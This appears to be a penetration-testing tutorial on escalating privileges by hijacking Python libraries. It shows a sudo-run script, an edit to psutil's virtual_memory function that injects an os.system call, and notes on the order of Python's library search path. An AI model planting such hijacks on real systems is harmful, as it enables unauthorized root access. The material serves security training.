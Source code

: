 There are many ways in which we can hijack a Python library. Much depends on the script and its contents itself. However, there are three basic vulnerabilities where hijacking can be used:

1. Wrong write permissions
2. Library Path
3. PYTHONPATH environment variable

---

## Wrong Write Permissions

#### Python Script

```shell
ls -l mem_status.py

-rwsrwxr-x 1 root mrb3n 188 Dec 13 20:13 mem_status.py
```

By analyzing the permissions over the `mem_status.py` Python file, we understand that we can execute this script and we also have permission to view the script, and read its contents.

```python
#!/usr/bin/env python3
import psutil

available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total

print(f"Available memory: {round(available_memory, 2)}%")
```

#### Module Permissions

```shell
grep -r "def virtual_memory" /usr/local/lib/python3.8/dist-packages/psutil/*
```

```shell
ls -l /usr/local/lib/python3.8/dist-packages/psutil/__init__.py
```

#### Module Contents

```python
...SNIP...

def virtual_memory():

	...SNIP...
	
    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret

...SNIP...
```

```python
...SNIP...

def virtual_memory():

	...SNIP...
	#### Hijacking
	import os
	os.system('id')
	

    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret

...SNIP...
```

```shell
sudo /usr/bin/python3 ./mem_status.py
```
---
## Library Path

In Python, each version has a specified order in which libraries (`modules`) are searched and imported from. The order in which Python imports `modules` from are based on a priority system, meaning that paths higher on the list take priority over ones lower on the list. We can see this by issuing the following command:

#### PYTHONPATH Listing

```shell
python3 -c 'import sys; print("\n".join(sys.path))'

/usr/lib/python38.zip
/usr/lib/python3.8
/usr/lib/python3.8/lib-dynload
/usr/local/lib/python3.8/dist-packages
/usr/lib/python3/dist-packages
```

To be able to use this variant, two prerequisites are necessary.

1. The module that is imported by the script is located under one of the lower priority paths listed via the `PYTHONPATH` variable.
2. We must have write permissions to one of the paths having a higher priority on the list.
#### Psutil Default Installation Location

```shell
pip3 show psutil

...SNIP...
Location: /usr/local/lib/python3.8/dist-packages
```

